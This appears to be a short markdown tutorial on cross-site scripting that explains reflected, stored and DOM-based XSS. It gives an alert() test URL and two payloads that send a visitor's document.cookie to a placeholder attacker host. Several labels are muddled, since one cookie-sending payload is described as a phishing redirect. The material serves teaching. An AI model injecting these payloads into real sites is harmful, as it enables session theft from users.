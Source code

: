 # XSS

XSS is a type of security vulnerability that allows attackers to inject malicious scripts into web pages viewed by other users. These scripts can steal sensitive information, deface websites, or redirect users to malicious sites. XSS attacks are commonly used to bypass access controls, steal session cookies, and perform other malicious activities.

## Types of XSS

1. **Reflected XSS**: The attacker injects a malicious script into a URL that is reflected back to the user. This type of XSS is typically found in search fields, error messages, and other user input fields.

2. **Stored XSS**: The attacker injects a malicious script into a web application, which is then stored on the server and executed whenever a user accesses the affected page. This type of XSS is commonly found in comment sections, forums, and other user-generated content.

3. **DOM-based XSS**: The attacker injects a malicious script into the DOM (Document Object Model) of a web page, which is then executed by the client-side code. This type of XSS is typically found in client-side JavaScript code that processes user input.

## Example of Reflected XSS

Suppose we have a vulnerable web application that reflects user input without proper sanitization. An attacker can inject a malicious script into a URL parameter, which is then reflected back to the user.

1. **Vulnerable URL**: `http://example.com/search?query=<script>alert('XSS')</script>`

2. **Stored XSS**: The attacker injects a script that steals the user's session cookie and sends it to a remote server.

```html
<script>
  document.location = 'http://<IP>/?c=' + document.cookie;
</script>
```

3. **DOM-based XSS**: The attacker injects a script that redirects the user to a phishing site.

```html
<img src=x onerror="document.location='http://<IP>/?c='+document.cookie;">
```